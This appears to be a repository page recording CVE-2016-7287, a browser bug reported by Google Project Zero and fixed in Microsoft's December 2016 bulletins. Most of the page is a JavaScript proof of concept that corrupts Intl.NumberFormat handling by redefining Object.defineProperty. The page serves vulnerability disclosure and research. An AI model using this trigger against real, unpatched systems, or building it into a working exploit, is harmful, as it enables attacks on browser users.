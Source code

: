 # CVE-2016-7287

- Report: Oct 2016
- Fix: Dec 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var d = Object.defineProperty;

var noobj = {
  get: function () {
    return 0x1234567 >> 1;
  },
  set: function () { }
};

function f(){
  var i = Intl;
  Intl  = {}; // this somehow prevents an exception that prevents laoding
  d(i, "Collator", noobj);
}

Object.defineProperty = f;

var q = new Intl.NumberFormat(["en"]);
```

## Reference

- [Microsoft (MS16-144)](http://technet.microsoft.com/security/bulletin/MS16-144)
- [Microsoft (MS16-145)](http://technet.microsoft.com/security/bulletin/MS16-145)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=972)
